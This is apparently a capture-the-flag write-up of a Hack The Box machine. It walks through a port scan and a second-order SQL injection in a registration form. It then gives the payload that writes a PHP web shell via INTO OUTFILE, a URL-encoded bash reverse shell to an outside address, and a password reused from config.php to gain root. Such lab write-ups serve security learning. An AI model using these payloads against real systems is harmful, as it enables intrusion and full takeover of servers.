 > Author: **[ippsec][author-profile]**!

Ippsec sensei said it all in his [video][walkthrough-ippsec], so this WU will
be concise.

## Discovery

### Port scanning

```bash
PORT     STATE    SERVICE       VERSION
22/tcp   open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open     http          Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
8080/tcp open     http          nginx
```

### Web browsing

The website lands on a registration page:

![][registration]

Upon submission, it redirects to `/account.php`:

```bash
HTTP/1.1 302 Found
Date: Thu, 16 Sep 2021 06:08:02 GMT
Server: Apache/2.4.48 (Debian)
X-Powered-By: PHP/7.4.23
Set-Cookie: user=cc705c9428384a563c68624e97491bb2
Location: /account.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
```

And the account page displays all the users in the same country. Since the
request doesn't contain any data apart from the cookie, it must use it to
fetch the session / user data from some database.

Submiting the registration form with the same username and another country
displays the former input. Ie the server doesn't update its record and loads
the user data already in the DB:

![][no-update-on-account]

## Break-in

It's possible to submit a custom country:

```html
<!-- username=a&country=foo -->
<h1 class="text-white">Welcome a</h1><h3 class="text-white">Other Players In foo</h3><li class='text-white'>apehex</li>
```

So we try injecting a SQL statement:

```html
<h1 class="text-white">Welcome c</h1>
<h3 class="text-white">Other Players In ' UNION SELECT 1;-- -</h3>
<li class='text-white'>1</li>
```

The `<h3>` tag shows that the query is stored verbatim in the DB, but evaluated
on the second query, when the server retrieves the list of users.

This is a second order SQLi, another lesson from **[iipsec][author-profile]**!

So we register yet another user with a webshell:

```
username=d&country=' UNION SELECT '<?php $c=chr(99);system($_REQUEST[$c]); ?>' INTO OUTFILE '/var/www/html/shell.php';-- -
```

Now we can create a functional reverse shell from the page `/shell.php`:

```
c=%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%2e%32%2e%33%2e%34%2f%39%30%30%31%20%30%3e%26%31%27
```

## Escalation

The database itself contains only user data, but the root password is stored in
the config file:

```bash
cat config.php
# <?php
#   $servername = "127.0.0.1";
#   $username = "uhc";
#   $password = "uhc-9qual-global-pw";
#   $dbname = "registration";

#   $conn = new mysqli($servername, $username, $password, $dbname);
# ?>
su -
```

[author-profile]: https://app.hackthebox.eu/users/3769

[no-update-on-account]: images/no-update-on-account.png
[registration]: images/registration.png
[walkthrough-ippsec]: https://www.youtube.com/watch?v=UqoVQ4dbYaI
